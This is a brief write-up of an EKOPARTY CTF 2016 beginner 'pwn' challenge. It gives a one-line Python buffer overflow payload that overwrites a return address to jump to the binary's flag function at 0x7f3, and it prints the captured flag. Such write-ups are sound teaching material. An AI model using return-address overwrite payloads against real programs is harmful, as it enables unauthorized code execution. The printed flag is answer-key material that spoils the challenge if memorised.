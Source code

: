 #EKOPARTY CTF 2016: Pwning 25

###Ultra baby
```
Reach the flag function!

nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 55000

Attachment
pwn25_5ae6e58885e7cd75.zip
```

##Solution
A string buffer overflow exploit.
The binary Flag function is at 0x7f3.
Payload:
```python
print 'aaaaaaaaaaaaaaaaaaaaaaa\xf3\x07\x00\x00'
```

Flag:
>EKO{Welcome_to_pwning_challs_2k16}
